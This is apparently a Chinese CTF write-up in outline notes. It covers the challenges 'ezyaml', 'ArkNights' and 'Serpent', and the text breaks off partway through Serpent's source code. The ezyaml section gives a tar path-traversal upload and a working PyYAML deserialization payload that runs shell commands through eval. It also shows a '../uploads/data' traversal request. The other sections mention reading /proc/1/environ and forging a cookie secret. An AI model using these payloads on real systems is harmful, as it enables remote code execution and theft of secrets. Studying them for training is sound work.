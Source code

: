 tags:: [[CTF/Python/YAML]], [[CTF/Python/Pickle]]

- # ezyaml
	- 思路
		- 利用tar创建config文件夹，然后使用[yaml反序列化]([[CTF/Python/YAML]])完成RCE
	- 利用tar创建config文件夹
		- 原理
			- 在tar文件中创建一个文件路径为`../../config/config.yaml`的文件，这样在python解压时就会自动创建config文件夹
		- 构造
			- 首先创建`aaa/bbb/`文件夹和`config/config.yaml`文件
			- 进入`aaa/bbb/`执行`tar --absolute-names  -cvf config.tar ../../config/config.yaml`得到一个tar文件
			- 然后传上去即可
				- ```python
				  with open("aaa/bbb/config.tar", "rb") as f:
				      r = requests.post(url + "upload", files = {
				          "file": f
				      })
				      # print(r.text)
				  
				  ```
	- Yaml反序列化
		- 写好的waf函数并没有使用
		- ```python
		  content = """
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('{}')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  """.format(
		      "sleep 2"
		  )
		  
		  r = requests.post(url + "upload", files = {
		      "file": ("data.yaml", content)
		  })
		  print(r.text)
		  
		  r = requests.get(url + "src", params = {
		      "username": "../uploads/data"
		  })
		  print(r.text)
		  
		  ```
- # ArkNights
	- 读`/proc/1/environ`
- # Serpent
	- 看到cookie中有secret，尝试伪造后得到`/ppppppppppick1e`
	- 访问看到headers里中的hint, 拿到部分源码
		- ```python
		  @app.route('/src0de')
		  def src0de():
		      f = open(__file__, 'r')
		      rsp = f.read()
		      f.close()
		      return rsp[rsp.index("@app.route('/src0de')"):]
		  